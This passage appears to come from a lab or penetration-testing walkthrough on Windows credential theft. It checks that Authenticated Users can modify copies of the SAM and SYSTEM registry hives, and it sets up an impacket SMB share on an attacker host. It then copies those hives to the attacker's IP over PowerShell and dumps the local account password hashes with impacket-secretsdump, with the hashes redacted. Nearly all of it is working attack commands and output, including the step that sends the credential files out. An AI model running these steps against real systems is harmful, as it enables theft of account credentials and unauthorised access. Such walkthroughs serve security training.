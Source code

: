 We do have access as we can see in this line:

```powershell
NT AUTHORITY\Authenticated Users:(I)(M)
```

As we can see we're part of this group:

```powershell
PS C:\Tools> whoami /groups | findstr /i authenticated
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
```

Setup an SMB share with credentials on your host:

```shell
❯ sudo impacket-smbserver share . -smb2support -username low -password 'p@ssw0rd'
[sudo] password for kali:
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Transfer the SAM and SYSTEM files to your attacker VM:

```powershell
PS C:\Users\user> $pass = ConvertTo-SecureString 'p@ssw0rd' -AsPlainText -Force

PS C:\Users\user> $cred = New-Object System.Management.Automation.PSCredential('low', $pass)

PS C:\Users\user> New-PSDrive -Name "share" -PSProvider "FileSystem" -Root "\\192.168.119.130\share" -Credential $cred
```

Transfer the files to your host:

```powershell
PS C:\> cp C:\sam  \\192.168.119.130\share
PS C:\> cp C:\system \\192.168.119.130\share
```

Now we have transferred these files to the attacker host:

```shell
❯ ls -l sam
.rwxr-xr-x root root 48 KB Tue Mar  8 17:48:37 2022  sam
❯ ls -l system
.rwxr-xr-x root root 12 MB Tue Mar  8 17:49:40 2022  system
```

Use secretsdump from impacket to dump out the hashes from the SAM and SYSTEM files:

```shell
❯ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxb:::
Guest:501:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
DefaultAccount:503:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
WDAGUtilityAccount:504:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
user:1001:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
[*] Cleaning up...
```
